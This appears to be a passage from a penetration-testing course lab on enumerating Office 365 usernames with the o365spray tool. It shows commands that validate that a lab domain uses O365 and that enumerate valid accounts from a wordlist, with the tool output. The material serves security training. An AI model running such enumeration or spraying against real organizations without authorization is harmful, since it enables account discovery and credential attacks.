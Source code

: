 ## Cloud Enumeration

As discussed, cloud service providers use their own implementation for email services. Those services commonly have custom features that we can abuse for operation, such as username enumeration. Let's use Office 365 as an example and explore how we can enumerate usernames in this cloud platform.

[O365spray](https://github.com/0xZDH/o365spray) is a username enumeration and password spraying tool aimed at Microsoft Office 365 (O365) developed by [ZDH](https://twitter.com/0xzdh). This tool reimplements a collection of enumeration and spray techniques researched and identified by those mentioned in [Acknowledgments](https://github.com/0xZDH/o365spray#Acknowledgments). Let's first validate if our target domain is using Office 365.

### **O365 Spray**

```shell-session
al1abb@htb[/htb]$ python3 o365spray.py --validate --domain msplaintext.xyz

            *** O365 Spray ***            

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  msplaintext.xyz
   > validate       :  True
   > timeout        :  25 seconds
   > start          :  2022-04-13 09:46:40

>----------------------------------------<

[2022-04-13 09:46:40,344] INFO : Running O365 validation for: msplaintext.xyz
[2022-04-13 09:46:40,743] INFO : [VALID] The following domain is using O365: msplaintext.xyz
```

Now, we can attempt to identify usernames.

```shell-session
al1abb@htb[/htb]$ python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz        
                                       
            *** O365 Spray ***             

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  msplaintext.xyz
   > enum           :  True
   > userfile       :  users.txt
   > enum_module    :  office
   > rate           :  10 threads
   > timeout        :  25 seconds
   > start          :  2022-04-13 09:48:03

>----------------------------------------<

[2022-04-13 09:48:03,621] INFO : Running O365 validation for: msplaintext.xyz
[2022-04-13 09:48:04,062] INFO : [VALID] The following domain is using O365: msplaintext.xyz
[2022-04-13 09:48:04,064] INFO : Running user enumeration against 67 potential users
[2022-04-13 09:48:08,244] INFO : [VALID] lewen@msplaintext.xyz
[2022-04-13 09:48:10,415] INFO : [VALID] juurena@msplaintext.xyz
[2022-04-13 09:48:10,415] INFO : 

[ * ] Valid accounts can be found at: '/opt/o365spray/enum/enum_valid_accounts.2204130948.txt'
[ * ] All enumerated accounts can be found at: '/opt/o365spray/enum/enum_tested_accounts.2204130948.txt'

[2022-04-13 09:48:10,416] INFO : Valid Accounts: 2
```